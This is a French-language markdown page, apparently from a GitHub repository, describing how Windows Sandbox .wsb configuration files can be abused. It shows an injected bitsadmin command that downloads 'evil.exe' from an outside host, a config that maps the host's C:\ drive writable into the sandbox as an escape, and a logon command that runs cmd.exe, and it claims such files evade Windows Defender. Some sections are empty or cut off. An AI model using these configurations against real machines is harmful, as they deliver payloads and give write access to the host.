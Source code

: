 
I  - Fonctionnement du Windows Sandbox


Windows Sandbox (WSB) va permettre de créer un environnement de bureau isolé, 
Les fichiers de configuration de WSB sont au format XML et utilisent l’extension .wsb.


![image](https://user-images.githubusercontent.com/75935486/152426360-480974ca-877d-4786-a715-237211be7558.png)



voici l'exemple d'un fichier de configuration: 

```xml

```











### Exploiter les configurations WSB:


Une des première méthodes consiste à modifier le champs `<Command>` pour executer notre commande malicieuse et accéder au fichiers systèmes de l'hote, en plus de ça les fichiers WSB ne se font pas détecter par Windows Defender.

Commande possible d'injecter:
```xml
<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
```

Compromissions de la configuration:
```xml
<Configuration>
   <MappedFolders>
 	<MappedFolder>
	  <HostFolder>C:\</HostFolder>
 	  <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 	  <ReadOnly>false</ReadOnly>
 	</MappedFolder>
   </MappedFolders>
   <LogonCommand>
 	<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
   </LogonCommand>
</Configuration>
```













```
• Inheriting Write Access permission to Host Machine (Sand-Box-Escape)

# Mapping C:\ root to Sandbox Environment with write access (RW.wsb)
<Configuration>
 <MappedFolders>
 <MappedFolder>
 <HostFolder>C:\</HostFolder>
 <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 <ReadOnly>false</ReadOnly>
 </MappedFolder>
 </MappedFolders>
</Configuration>
NOTE : File created in the sand-box environment will directly reflect in the C:\ folder of Host Machine



 
• Execution upon Sand-Box Environment Creation 

<Configuration>
 <MappedFolders>
 <MappedFolder>
 <HostFolder>C:\</HostFolder>
 <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 <ReadOnly>false</ReadOnly>
 </MappedFolder>
 </MappedFolders>
 <LogonCommand>
 <Command>C:\Windows\system32\cmd.exe</Command>
 </LogonCommand>
</Configuration>

NOTE : File created in the sand-box environment will directly reflect in the C:\ folder of Host Machine 


```

### étude approfondi de Windows Sandbox:

